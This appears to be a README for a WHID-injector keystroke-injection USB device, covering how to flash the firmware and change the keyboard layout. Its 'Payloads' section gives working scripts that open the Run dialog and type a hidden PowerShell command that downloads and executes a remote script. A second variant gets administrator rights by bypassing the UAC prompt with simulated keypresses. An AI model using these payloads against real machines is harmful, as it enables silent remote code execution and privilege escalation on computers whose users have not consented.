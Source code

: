 ## Build instructions
> **Notes:**
> - This has only been tested with the Arduino IDE 2.3.2
> - Only flashing the file at [ESPloitV2_whid/source/Arduino_32u4_Code/Arduino_32u4_Code.ino](https://github.com/whid-injector/WHID/blob/master/ESPloitV2_whid/source/Arduino_32u4_Code/Arduino_32u4_Code.ino) is relevant for the keyboard layout.
> - For flashing [ESPloitV2_whid/source/ESP_Code](https://github.com/whid-injector/WHID/tree/master/ESPloitV2_whid/source/ESP_Code),
> [ESPloitV2_whid/flashing/esp8266Programmer/esp8266Programmer.ino](https://github.com/whid-injector/WHID/blob/master/ESPloitV2_whid/flashing/esp8266Programmer/esp8266Programmer.ino) has
> to be flashed first, and after that `Arduino_32u4_Code.ino` again

See installation, build and usage instructions at [github.com/whid-injector/WHID/wiki#main-requirements](https://github.com/whid-injector/WHID/wiki#main-requirements)




## Change Keyboard layout

If the keyboard is available at [github.com/whid-injector/WHID/wiki/Keyboards-Layout](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout), use those instructions.

If not available, you can modify the file `Keyboard/src/KeyboardLayout_en_US.cpp` ([`Keyboard` library](https://github.com/arduino-libraries/Keyboard), usually found somewhere at around `%localAppData%/Arduino15/libraries/Keyboard` on Windows) based on your needs. \
An example for that is the file [KeyboardLayout_en_US.cpp](/files/KeyboardLayout_en_US.cpp) for the Swiss-German keyboard layout



## Payloads

Use something like the following to execute a powershell script from an url (replace `URL` accordingly)
```shell
Press:131+114 
Print:powershell -w h "IEX(iwr('URL'))"
Press:176
Press:176
Press:176
Press:176
Press:176
```

> **Note**
> `131+114` here stands for the `WIN`+`r` key combo, and `176` for  `ENTER` ([syntax](https://github.com/whid-injector/WHID/wiki/WHID-Software-SCRIPTING-SYNTAX)) \
> See [github.com/whid-injector/WHID#how-to-start-newbies-edition](https://github.com/whid-injector/WHID?tab=readme-ov-file#how-to-start-newbies-edition) for general usage of the WHID-injector

Execution with Administrator privileges
```shell
Press:131+114
Print:powershell -w h "IEX(iwr('url'))"
Press:128+129+176
Press:216
Press:176
Press:216
Press:176
Press:216
Press:176
Press:216
Press:176
Press:216
Press:176
```
(`128+129+176` stands for `CTRL`+`SHIFT`+`ENTER` and `216` for `ArrowLeft`)